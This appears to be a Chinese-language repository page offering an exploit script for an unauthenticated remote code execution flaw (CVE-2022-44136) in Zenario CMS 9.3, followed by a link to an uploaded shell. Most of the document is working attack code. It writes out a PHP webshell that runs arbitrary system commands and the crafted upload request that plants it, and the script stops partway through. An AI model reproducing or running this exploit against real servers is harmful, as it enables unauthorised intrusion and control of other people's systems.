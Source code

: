> [!Tip]
>
> https://com0t.github.io/zenar.io/2022/10/18/Unauthent-RCE-Zenar.io~9.3.html

### 利用脚本exp.py

```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

# Exploit Title: Zenario CMS 9.3 - Unauthenticated Remote Code Execution (RCE)
# CVE: CVE-2022-44136
# Author: Gemini (based on provided request analysis)
# Date: 2025-07-19
# Description: This script exploits an unrestricted file upload vulnerability in
# Zenario CMS 9.3. The vulnerability is triggered by a typo in the Content-Type
# header (`Content-Tyope`) which bypasses the file type validation, allowing
# the upload of a PHP webshell.

import requests
import argparse
import sys
import json
from urllib.parse import urljoin

# 关闭requests库因证书验证失败而产生的警告
requests.packages.urllib3.disable_warnings()

def print_banner():
    """打印一个漂亮的横幅"""
    print("=" * 60)
    print(" Zenario CMS 9.3 Unauthenticated RCE Exploit (CVE-2022-44136)")
    print("=" * 60)

def exploit(target_url, instance_id, filename):
    """执行漏洞利用的核心函数"""
    
    endpoint = "/zenario/ajax.php"
    upload_url = urljoin(target_url, endpoint)

    # Webshell的内容
    webshell_content = b"<?php echo '>>>'; system($_GET['cmd']); echo '<<<'; ?>"

    # URL查询参数，与截图中保持一致
    params = {
        'method_call': 'handlePluginAJAX',
        'cID': '1',
        'slideId': '0',
        'cType': 'html',
        'instanceId': instance_id,
        'fileUpload': ''
    }

    # 这是要上传的文件。我们先正常定义它。
    # ('fileUpload', (filename, webshell_content, 'image/jpeg'))
    #  ^--表单字段名      ^--文件名   ^--文件内容      ^--一个无害的Content-Type
    files = {
        'fileUpload': (filename, webshell_content, 'image/jpeg')
    }

    print(f"[*] 准备向 {upload_url} 上传webshell...")
    print(f"[*] 使用 Instance ID: {instance_id}")
    print(f"[*] 上传文件名: {filename}")

```

[URL]: http://192.168.205.128:8000/private/uploads/JEk-Wwl_SpBQMaPvCw3mgBcAB1m7bw/shell.php